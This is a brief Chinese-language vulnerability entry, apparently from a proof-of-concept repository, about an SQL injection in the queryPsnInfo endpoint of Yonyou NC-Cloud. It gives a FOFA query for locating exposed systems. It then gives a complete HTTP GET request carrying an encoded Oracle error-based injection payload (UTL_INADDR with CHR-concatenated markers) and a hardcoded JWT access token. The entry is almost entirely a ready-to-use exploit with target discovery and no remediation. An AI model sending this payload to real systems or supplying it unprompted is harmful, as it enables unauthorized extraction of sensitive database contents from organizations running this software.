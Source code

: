 # 用友NC-Cloud系统queryPsnInfo存在SQL注入漏洞

用友NC Cloud queryPsnInfo接口存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。

## fofa

```yaml
app="用友-NC-Cloud"
```

## poc

```java
GET /ncchr/pm/obj/queryPsnInfo?staffid=1%27+AND+1754%3DUTL_INADDR.GET_HOST_ADDRESS%28CHR%28113%29%7C%7CCHR%28106%29%7C%7CCHR%28122%29%7C%7CCHR%28118%29%7C%7CCHR%28113%29%7C%7C%28SELECT+%28CASE+WHEN+%281754%3D1754%29+THEN+1+ELSE+0+END%29+FROM+DUAL%29%7C%7CCHR%28113%29%7C%7CCHR%28112%29%7C%7CCHR%28107%29%7C%7CCHR%28107%29%7C%7CCHR%28113%29%29--+Nzkh HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 6.2) AppleWebKit/532.1 (KHTML, like Gecko) Chrome/41.0.887.0 Safari/532.1
Accesstokenncc: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyaWQiOiIxIn0.F5qVK-ZZEgu3WjlzIANk2JXwF49K5cBruYMnIOxItOQ
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

